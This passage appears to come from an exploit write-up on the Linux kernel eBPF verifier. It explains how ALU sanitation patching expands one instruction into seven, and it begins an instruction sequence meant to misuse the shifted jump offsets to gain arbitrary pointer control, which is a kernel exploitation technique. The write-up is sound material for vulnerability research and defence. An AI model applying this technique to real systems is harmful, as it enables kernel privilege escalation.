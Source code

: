 ``` c
			if (!issrc)
				*patch++ = BPF_MOV64_REG(insn->dst_reg, insn->src_reg);
			insn->src_reg = BPF_REG_AX;
			if (isneg)
				insn->code = insn->code == code_add ?
					     code_sub : code_add;
			*patch++ = *insn;
			if (issrc && isneg && !isimm)
				*patch++ = BPF_ALU64_IMM(BPF_MUL, off_reg, -1);
			cnt = patch - insn_buf;

			new_prog = bpf_patch_insn_data(env, i + delta, insn_buf, cnt);
			if (!new_prog)
				return -ENOMEM;

			delta    += cnt - 1;
			env->prog = prog = new_prog;
			insn      = new_prog->insnsi + i + delta;
			continue;
		}
		...
	...
	}
```
Consider the following eBPF instruction, where `BPF_REG_0` is pointer to map value, and `BPF_REG_7` is some scalar unknown value coming from bpf map, in reality it's just zero value (this is the same `BPF_REG_7` that we talked before actually) .
```c
		BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_7),
```
Above instruction, will expanded to:
```c
		BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit);
		BPF_ALU64_REG(BPF_SUB, BPF_REG_AX, BPF_REG_7);
		BPF_ALU64_REG(BPF_OR, BPF_REG_AX, BPF_REG_7);
		BPF_ALU64_IMM(BPF_NEG, BPF_REG_AX, 0);
		BPF_ALU64_IMM(BPF_ARSH, BPF_REG_AX, 63);
		BPF_ALU64_REG(BPF_AND, BPF_REG_AX, BPF_REG_7);
		BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_AX),
```
So, this one instruction will be patched with seven instruction (the `delta` will be 7)

My idea is using this expanded instruction, i want to make this load arbitrary pointer (we want to take control over `BPF_REG_0` registers). This is what it looks like.
``` c
        BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, 11), // goto jmp1
        BPF_MOV64_IMM(BPF_REG_0, 0x0),
        BPF_EXIT_INSN(),
        // jmp2: // [1]
        BPF_MOV64_REG(BPF_REG_0, BPF_REG_5), // suppose BPF_REG_5 is pointer to map value
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_7), // just some nop
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_7),
                                                      // expanded instruction here
        BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_7), /*BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit),
                                                        BPF_ALU64_REG(BPF_SUB, BPF_REG_AX, BPF_REG_7),
                                                        BPF_ALU64_REG(BPF_OR, BPF_REG_AX, BPF_REG_7),
                                                        BPF_ALU64_IMM(BPF_NEG, BPF_REG_AX, 0),
                                                        BPF_ALU64_IMM(BPF_ARSH, BPF_REG_AX, 63),
```